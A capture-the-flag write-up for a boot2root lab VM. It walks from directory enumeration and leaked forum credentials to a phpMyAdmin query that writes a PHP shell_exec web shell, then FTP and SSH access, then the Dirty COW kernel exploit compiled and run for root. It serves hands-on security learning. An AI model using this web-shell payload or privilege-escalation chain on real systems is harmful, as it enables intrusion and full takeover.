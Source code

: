 -------------------------------------------------------------------------------

# The following method describes a Race Condition Privilege Escalation

-------------------------------------------------------------------------------

## First we need to find the IP address of the VM

* Refer to writeup1

## Secondly we are looking for credentials.

* We use a software call Drib to scrap some of the most common url of the website.

```
git clone https://github.com/v0re/dirb.git
./dirb https://[YOUR IP]/ wordlists/common.txt

---- Scanning URL: https://10.12.1.150/ ----
+ https://10.12.1.150/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: https://10.12.1.150/forum/
==> DIRECTORY: https://10.12.1.150/phpmyadmin/
+ https://10.12.1.150/server-status (CODE:403|SIZE:293)
==> DIRECTORY: https://10.12.1.150/webmail/
```
### Forum

* After sneaking around and read all the forum post, we find a clue on the post "Probleme login ?" url = https://10.12.1.150/forum/index.php?id=6

* If your look for ```Failed password``` your will find one where the user is ``` !q\]Ej?*5K5cy*AJ``` and we think that the user who tried to login make a mistake between are password and login

![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.05.14%20AM.png)

* We can see couple second after this attempt, lmezard successful login, so we can conclude the login is lmezard (Laurie Mezard)

* Use this credential to login the forum.

* Conclution we have one of the password and the email of lmezard.

### Webmail

* On the webmail we have a login form, and we just find a password and a email in the forum section so we decided to give it a try.

![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.04.21%20AM.png)

* Login: ```laurie@borntosec.net```
* Password: ```!q\]Ej?*5K5cy*AJ```

* When we logged in , we find a email with the subject ```DB Access```


![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.06.32%20AM.png)

* Login: ```root```
* Password: ```Fg-'kKXBj87E:aJ$```
* we really suspect in the access for a DB

### Phpmyadmin

* We tried the credentials of the email to login phpmyadmin and it worcks :)
* After some research on the web we stumble on this [aritcle](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)
* The injection sql we are looking for is:
```select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output  ?>" into outfile "/var/www/forum/templates_c/endTest0.php"```
* Copy past this line and go to to => https://10.12.1.150/phpmyadmin/index.php on the sql tab
* After this step your just need to go to https://10.12.1.150/forum/templates_c/endTest0.php
* You will find ```lmezard:G!@M6f4Eatau{sF"```
* Login: ```lmezard```
* Password: ```G!@M6f4Eatau{sF"```

## Use the credentials

* Now we got the password of the server, we can try to log on the FTP service
* ftp [YOUR-IP-ADDRESS]
* login with  ```lmezard``` ```G!@M6f4Eatau{sF"```
* get the fun file, see example bellow:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||25027|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||7488|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |****************************************************************************************************************************************|   790 KiB  127.07 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (120.03 MiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||44244|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp>
```

## Using the fun file

* Refer to writeup1, step 2
* ssh login: laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

## ssh connection
* use  ``ssh laurie@10.12.1.150`` add the password when it's ask

## Race Condition Privilege Escalation
* YES!!!! we are on the serveur ! know we need to get information about the os
* kernel verions : ```uname -r``` => 3.2.0-91-generic-pae
* Distrubition name and verisons ```cat /etc/*-release``` => Ubuntu, 12.04

* After having information on what we where working on we did some research on [EXPLOIT DATABASE](https://www.exploit-db.com)
* We find the "Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)"
* go to https://www.exploit-db.com/exploits/40839/ and Copy the script
* ```gcc -pthread dirty.c -o dirty -lcrypt && ./dirty```
* add a password, example: 12345
* ```su firefart``` use your password

# GG Your root !
